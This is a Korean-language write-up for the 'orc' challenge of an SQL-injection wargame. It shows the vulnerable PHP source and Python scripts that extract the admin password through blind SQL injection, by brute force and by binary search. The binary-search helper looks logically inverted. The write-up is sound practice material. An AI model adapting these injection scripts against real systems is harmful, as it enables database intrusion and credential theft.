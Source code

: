 ## Blind SQL Injection

SQL True or False를 이용해 pw값 유추

```php
length() = 8
ascii(substr()) <= num
```

이분 탐색을 통해 무차별 대입의 속도 향상!!

## ORC 문제 풀이

```sql
query : select id from prob_orc where id='admin' and pw=''
```

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

### 풀이

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

- 이 부분에서 실제 pw를 비교하기 때문에 일반적인 sql 인젝션으로는 접근 ❌
- Blind sql을 이용해 실제 pw를 알아내야함!
- pw 길이를 알아내기 위해 python code 작성!!

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies = {"PHPSESSID": "MYCOOKIE"}

for i in range(100):
    payload = f"?pw=' or id='admin' and length(pw)={i};%23"
    res = requests.get(url + payload, cookies=cookies)
    print(res.text)
    if "Hello admin" in res.text:
        print("[+] length :", i)
        break
```

- [+] length : 8

- pw 길이를 알았으니 pw를 알아내야함!

```python
substr("abc", 1, 1) = 'a'
```

```python
substring("abc", 1, 1) = 'a'
```

```python
mid("abc", 1, 1) = 'a'
```

```python
left("abc", 1, 1) = 'a'
```

```python
right("abc", 1, 1) = 'a'
```

```python
right(left("abc", 1, 1), 1) = 'a'  
```

- 각 필터링에 맞추어 상황에 따라 적절히 사용함

### Brute force

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies = {"PHPSESSID": "MYCOOKIE"}
len = 0
pw = ''

for i in range(100):
    payload = f"?pw=' or id='admin' and length(pw)={i};%23"
    res = requests.get(url + payload, cookies=cookies)
    if "Hello admin" in res.text:
        print("[+] length :", i)
        len = i
        break

# 추가된 부분
for i in range(1, len + 1):
    for j in range(32, 127):
        payload = f"?pw=' or id='admin' and ord(substr(pw, {i}, 1))={j};%23"
        res = requests.get(url + payload, cookies=cookies)
        if "Hello admin" in res.text:
            print(f"[+] {i} : {chr(j)}")
            pw += chr(j)
            break

print(f"[+] pw : {pw}")
```

- 결과

- [+] length : 8
- [+] 1 : 0
- [+] 2 : 9
- [+] 3 : 5
- [+] 4 : a
- [+] 5 : 9
- [+] 6 : 8
- [+] 7 : 5
- [+] 8 : 2
- [+] pw : 095a9852

- url에 pw=095a9852 대입

### Binary search(속도 개선)

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies = {"PHPSESSID": "MYCOOKIE"}
len = 0
pw = ''

for i in range(100):
    payload = f"?pw=' or id='admin' and length(pw)={i};%23"
    res = requests.get(url + payload, cookies=cookies)
    if "Hello admin" in res.text:
        print("[+] length :", i)
        len = i
        break

def is_pw(index, num):
    payload = f"?pw=' or id='admin' and ord(substr(pw, {index}, 1))={num};%23"
    res = requests.get(url + payload, cookies=cookies)
    if "Hello admin" in res.text:
        return False
    else:
        return True

def binary_search(index):
    start = 32
    end = 126
    mid = (start + end) // 2
    while(is_pw(index, mid)):
        payload = f"?pw=' or id='admin' and ord(substr(pw, {index}, 1))<={mid};%23"
        res = requests.get(url + payload, cookies=cookies)
        if "Hello admin" in res.text:
            end = mid - 1
        else:
            start = mid + 1
        mid = (start + end) // 2
    
    print(f"[+] {index} : {chr(mid)}")

    return chr(mid)

for i in range(1, len + 1):
    pw += binary_search(i)

print(f"[+] pw : {pw}")
```
